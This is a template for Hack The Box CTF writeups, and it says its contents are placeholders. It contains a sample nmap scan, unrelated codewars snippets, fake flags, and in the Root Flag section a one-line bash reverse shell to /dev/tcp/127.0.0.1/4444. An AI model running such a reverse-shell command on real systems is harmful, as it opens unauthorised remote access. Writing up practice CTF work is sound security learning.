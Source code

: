 ```yaml
---
title: "Hack The Box - BOX NAME HERE"
author: Ryan Kozak
date: "2021-06-15"
subject: "CTF Writeup Template"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/bg.pdf"
...
```



*Everything below is just random stuff for the sake of example.*

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
x@wartop:~$ nmap -sVC 192.168.100.6

Starting Nmap 7.01 ( https://nmap.org ) at 2019-08-11 08:57 PDT
Nmap scan report for 192.168.100.6 (192.168.100.1)
Host is up (0.022s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
53/tcp  open  domain
81/tcp  open  http     Apache httpd
|_http-server-header: Apache
444/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=192.168.100.6
| Not valid before: 2018-07-06T14:40:08
|_Not valid after:  4756-06-01T14:40:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.22 seconds
```
From the above output we can see that ports, **22**, **53**, **81**, and **444** are the ports open. This is just an example to show code formatting so who cares.

Look  here's an image of my website, this is how you format an image.

![My Website](/assets/img/htb-boxname/ryankozak.com.png)
\ **Figure 1:** My Website


![Github](/assets/img/htb-boxname/github.png)
\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.


![Root](/assets/img/htb-boxname/root.png)
\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
